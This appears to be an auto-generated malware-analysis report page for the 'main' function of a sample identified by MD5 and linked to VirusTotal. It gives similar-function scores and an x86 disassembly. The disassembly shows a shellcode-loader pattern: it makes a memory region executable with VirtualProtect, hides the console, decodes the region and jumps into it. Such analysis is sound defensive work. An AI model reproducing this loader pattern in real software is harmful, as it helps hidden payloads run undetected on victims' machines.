 ```yaml
---
layout: post
title:  "main @ d6cd3ce17e4e9b2b6c53653d5a372928"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** main
- **Origin (md5):** d6cd3ce17e4e9b2b6c53653d5a372928
- **VirusTotal:** [virustotal.com/gui/file/d6cd3ce17e4e9b2b6c53653d5a372928][virustotal_ref]

# Code Tags
<span class="tag" id="MEMORY">MEMORY</span>
<span class="tag" id="LINKING">LINKING</span>


# Similar Functions

1. [main][similar_1_ref] (sim.: 0.7718011031001506)
2. [fcn.004e7840][similar_2_ref] (sim.: 0.7358367989436916)
3. [main][similar_3_ref] (sim.: 0.7341817871895544)
4. [main][similar_4_ref] (sim.: 0.7340378409527963)
5. [main][similar_5_ref] (sim.: 0.7340378409527963)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
push ecx
call fcn.00401640
mov dword[0x49c664],0xe3714
call fcn.00401640
push 0
call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]
mov ecx,dword[0x49c664]
add ecx,eax
mov dword[0x49c664],ecx
call fcn.00401640
call fcn.00401640
lea edx,[ebp-4]
push edx
push 0x40
push 0xc00
mov eax,dword[0x49c664]
push eax
call dword[sym.imp.KERNEL32.dll_VirtualProtect]
test eax,eax
je 0x401a79
call dword[sym.imp.KERNEL32.dll_FreeConsole]
call fcn.00401640
push 0x180
mov ecx,dword[0x49c664]
push ecx
call fcn.00401770
add esp,8
push edx
push eax
push ecx
mov edx,dword[0x41acb8]
mov ecx,dword[0x49c664]
push ecx
push eax
push edx
call dword[esp+8]
xor eax,eax
mov esp,ebp
pop ebp
ret 
{% endhighlight %}


[similar_1_ref]: /report/main@53f4678414ce7afa3232e70113298724
[similar_2_ref]: /report/fcn.004e7840@be7fba7cc724acf4ae2900d99e0fc9c3
[similar_3_ref]: /report/main@33755acdcc496b7cf141bfd1caed6919
[similar_4_ref]: /report/main@339149a6ceaff8ec9831ebc6113adb23
[similar_5_ref]: /report/main@b126e27183b007b246425b95392cae71
[virustotal_ref]: https://www.virustotal.com/gui/file/d6cd3ce17e4e9b2b6c53653d5a372928